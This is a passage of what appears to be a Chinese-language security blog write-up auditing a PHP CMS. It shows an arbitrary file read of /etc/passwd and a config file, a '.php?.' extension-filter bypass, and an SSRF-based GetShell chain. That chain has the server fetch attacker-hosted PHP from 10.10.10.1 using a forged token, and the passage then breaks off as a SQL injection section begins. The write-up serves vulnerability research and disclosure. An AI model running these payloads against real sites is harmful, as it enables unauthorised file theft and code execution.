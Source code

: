 直接用VSCode的全局搜索功能，寻找`down_file()`函数的调用位置：

![](9.png)

发现它出现在了一个js文件中，于是构造一个XHR的POST请求到服务端，设置`file`参数的值使其访问`/etc/passwd`，得到如下响应：

![](5.png)

用浏览器打开“文件存储路径+返回的文件名”：

![](10_meitu_2.png)

### GetShell

再请求一下`/config/system.php`，该文件中存储有重要的元数据。

![](11.png)

这是因为Part5中的`$ext`变量虽然为空，但它专门过滤了.php文件，好在利用`file://`协议的解析特性，可以绕过这一点，比如`.php?.`或`.php#.`：

![](12.png)

再次用浏览器打开并设置编码格式为UTF-8：

![](13_meitu_1.png)

获取到安全密钥后，可以构造特殊payload绕过扩展名检查。这里，总结一下此次GetShell的思路：

1. 构造特殊payload使.html文件允许被上传
2. 在自己控制的服务器上放置.html文件（里面有恶意代码的php代码）
3. 利用SSRF漏洞，使被攻击服务器用http协议访问带外数据（OOB），获取到恶意的.html，形成Getshell

为了绕过扩展名检查，我将加密代码拷贝进另一文件并填入密钥，输入选择`1|html,|0`，运行得到输出为`22d7Qrdws88/R/uETpWlvY/PFNTYzvs/QNj5PBa66veNDlECqpM`，并构造POST参数`file=http://10.10.10.1/haha.html&url=code=22d7Qrdws88/R/uETpWlvY/PFNTYzvs/QNj5PBa66veNDlECqpM`，这里的`haha.html`里包含了php代码`<?php echo phpinfo();?>`，最终效果如下：

![](14.png)

![](15_meitu_2.png)

如果这里复现失败了，那大概是在于两点：一、加密函数有时效性，过时需要重新生成；二、CentOS默认安装的Apache无法解析包含php代码的html文件，需要在`/etc/httpd/conf.d/php.conf`中添加如下：

![](16.png)

## 漏洞2——前台SQL注射

最后一个SQL注射漏洞，为了找到漏洞出现的位置，我可耻地下载了别人博客里的截图并放大，看到了以下信息：

![](17.png)

查看源码（`\diy\dayrui\models\Attachment_model.php`）可以发现注入点：

![](18.png)
